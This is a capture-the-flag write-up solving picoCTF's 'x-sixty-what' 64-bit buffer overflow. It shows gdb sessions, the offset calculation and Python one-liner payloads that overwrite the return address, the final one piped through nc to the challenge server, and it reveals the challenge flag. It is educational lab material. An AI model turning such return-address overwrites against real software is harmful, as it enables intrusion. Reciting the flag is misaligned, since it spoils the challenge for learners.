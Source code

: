 # `x-sixty-what`

## Description

Overflow x64 code

Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://artifacts.picoctf.net/c/192/vuln).

Download [source](https://artifacts.picoctf.net/c/192/vuln.c)

```bash
nc saturn.picoctf.net 50079
```


## Fuzzing

We notice that `#define BUFFSIZE 64` so we can crash it immediataly by:

```bash
python2 -c "print('U' * 64 + '1234')"
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU1234


gdb ./vuln-64
Reading symbols from ./vuln-64...

(gdb) b *(vuln +29)
Breakpoint 1 at 0x401ece: file vuln.c, line 26.

(gdb) r
Starting program: vuln-64 
Welcome to 64-bit. Give me a string that gets you the flag: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUU1234

(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
main (argc=<error reading variable: Cannot access memory at address 0x7f0034333225>, 
    argv=<error reading variable: Cannot access memory at address 0x7f0034333219>) at vuln.c:36
```

## Stack

```
(gdb) i r $rsp
rsp            0x7fffffffd698      0x7fffffffd698
(gdb) i r $rbp
rbp            0x7fffffffd6d8      0x7fffffffd6d8
```

So the size is 64 in decimal.

Send a payload with 6 digits:

```
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: vuln-64 
Welcome to 64-bit. Give me a string that gets you the flag: 
UUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUUAAAAAA

Breakpoint 1, vuln () at vuln.c:26
26      }
(gdb) x/20xg $rsp
0x7fffffffd698: 0x5555555555555555      0x5555555555555555
0x7fffffffd6a8: 0x5555555555555555      0x5555555555555555
0x7fffffffd6b8: 0x5555555555555555      0x5555555555555555
0x7fffffffd6c8: 0x5555555555555555      0x5555555555555555
0x7fffffffd6d8: 0x0000414141414141      0x0000000000401f37
0x7fffffffd6e8: 0x00007fffffffd838      0x0000000100000000
0x7fffffffd6f8: 0x000003e8004c1018      0x0000000000402f20
0x7fffffffd708: 0x0000000000402750      0x0000000000000000
0x7fffffffd718: 0x0000000100000000      0x00007fffffffd838
0x7fffffffd728: 0x0000000000401ed1      0x0000000000000000

```

Locally, when running agains our own compiled version of `./vuln.c`, we're able to retrieve the debug flag:

```bash
python2 -c "print('U' * 72 + '\x35\x1e\x40')" | ./vuln-64
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{some_flag}
[1]    222188 done                              python2 -c "print('U' * 72 + '\x35\x1e\x40')" | 
       222189 segmentation fault (core dumped)  ./vuln-64

```

Finally got it to work after seeing the 2nd hint:

>Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.

```bash
cat <(python2 -c "print('U' * 72 + '\x3b\x12\x40')") - | nc saturn.picoctf.net 52707
Welcome to 64-bit. Give me a string that gets you the flag: 
picoCTF{b1663r_15_b3773r_11c407bc}
```
